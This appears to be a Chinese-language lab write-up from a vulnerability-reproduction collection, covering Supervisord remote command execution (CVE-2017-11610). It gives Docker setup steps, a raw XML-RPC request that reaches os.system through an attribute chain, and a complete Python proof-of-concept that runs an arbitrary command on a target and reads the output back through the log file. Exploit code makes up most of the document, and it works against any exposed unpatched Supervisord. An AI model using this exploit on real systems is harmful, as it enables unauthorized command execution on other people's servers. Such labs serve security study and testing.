 # Supervisord 远程命令执行漏洞（CVE-2017-11610）

参考链接：

 - https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
 - https://blogs.securiteam.com/index.php/archives/3348
 - https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## 运行环境

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:9001`即可查看Supervisord的页面。

## 漏洞测试

直接执行任意命令：

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

![](01.png)

## 关于直接回显的POC

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC： [poc.py](poc.py)，直接贴出来吧：

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：`./poc.py "http://your-ip:9001/RPC2" "command"`：

![](02.png)
